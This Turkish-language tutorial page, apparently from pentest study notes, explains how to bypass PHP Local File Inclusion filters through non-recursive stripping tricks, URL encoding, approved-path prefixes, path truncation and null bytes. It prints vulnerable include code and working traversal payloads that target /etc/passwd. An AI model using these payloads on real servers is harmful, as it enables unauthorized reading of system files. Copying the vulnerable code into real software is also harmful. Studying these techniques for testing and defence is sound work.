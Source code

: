 ```yaml
---
icon: material/circle-small
---
```


# Basic Bypasses

## Non-Recursive Path Traversal Filters

Geliştiriciler, LFI saldırısını engellemek için aşağıdaki gibi bir kod kullanabilir:

```php
$language = str_replace('../', '', $_GET['language']);
```

Bu kod, GET parametresinde bulunan `../` ifadelerini temizlemektedir. Ancak bu işlem yeterli değildir. Bundan kaçınmak için aşağıdaki ifadeler kullanılabilir:

* [x] `....//`
* [x] `..././`
* [x] `....\/`
* [x] `....////`

Bu şekilde, ifade (`../`) silindikten sonra bile aynı ifade oluşturulmuş olur.

## Encoding

Bazı web siteleri nokta (`.`) ve eğik çizgi (`/`) gibi ifadelerin URL kısmında kullanılmasını engelleyebilir. Bu engeli aşmak için ifade (`./`) URL kodlaması ile değiştirilebilir (`%2e%2e%2f`).

* [x] Örneğin URL şu şekilde gözükebilir: [http://SERVER_IP_ADDRESS:PORT/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64](http://SERVER_IP_ADDRESS:PORT/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64)

## Approved Paths

Bazı web uygulamaları RegEx kullanarak, dosyaların belirli bir dizin altında olup olmadığını doğrulayabilir:

```php
if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) {
    include($_GET['language']);
} else {
    echo 'Illegal path specified!';
}
```

Web uygulamasının RegEx kontrolünde hangi dizini hesaba kattığını çeşitli yöntemlerle (fuzzing vs.) öğrendikten sonra, bu korumayı aşmak için LFI dizemizi bu dizin ile başlatabiliriz.

* [x] Örneğin URL şu şekilde gözükebilir: [http://SERVER_IP_ADDRESS:PORT/index.php?language=./languages/../../../../etc/passwd](http://SERVER_IP_ADDRESS:PORT/index.php?language=./languages/../../../../etc/passwd)

## Appended Extension

Sitenin kaynak kodunda aşağıdaki gibi bir satır olsun:

```php
include($_GET['language'] . ".php");
```

Bu durumda, bahsedilen LFI yöntemleri (örneğin `../../../etc/passwd`) işe yaramayacaktır. Çünkü GET parametresini ilgili şekilde verdiğimizde, mevcut olmayan bir dosya yolu (`../../../etc/passwd.php`) talep etmiş oluruz.

Bu korumayı aşmak için, eski PHP sürümlerini etkileyen bazı saldırı yöntemleri kullanılabilir.

### Path Truncation

Eski PHP sürümlerinde bir dizenin maksimum uzunluğu 4096 karakter olarak belirlenmiştir (32-bit sistem sınırlaması). Eğer 4096 karakterden daha uzun bir dize tanımlanırsa, bu sayının ötesindeki karakterler kırpılır.

Buna ek olarak, aşağıdaki durumlarda da belirtilen kırpma işlemleri gerçekleşir:

* `/etc/hosts/.` --> `/etc/hosts`
* `///etc/hosts` --> `/etc/hosts`
* `/etc/./hosts` --> `/etc/hosts`

Bahsedilen bu PHP sınırlamaları birlikte kullanıldığında, istenilen yolu elde etmek için çok uzun dizeler oluşturabiliriz. 4096 karakter sınırına ulaştığımızda, geride kalan uzantı (örneğin `.php`) kırpılır ve istediğimiz yolu elde etmiş oluruz.

!!! warning "Non-Existing Directory"

    Burada bahsedilen tekniğin işe yaraması için, LFI dizesi, sunucuda mevcut olmayan bir dizin ifadesi ile başlamalıdır.

Örnek uzun bir LFI dizesi oluşturmak için aşağıdaki komutu kullanabiliriz:

```bash
echo -n "NonExistingDirectory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
```

!!! info "4096"

    Verilen komutta, `./` ifadesi 2048 kere tekrarlanarak 4096 karakter elde edilmiştir.

### Null Bytes

Eski PHP sürümlerinde Null Byte Injection zafiyeti de kullanılabilir. Bunun için ilgili dizenin sonuna Null karakteri (`%00`) eklenerek, bu karakterden sonraki ifadelerin geçersiz olması sağlanabilir.

* [x] Örneğin URL şu şekilde gözükebilir: [http://SERVER_IP_ADDRESS:PORT/index.php?language=./languages/../../../../etc/passwd%00](http://SERVER_IP_ADDRESS:PORT/index.php?language=./languages/../../../../etc/passwd%00)

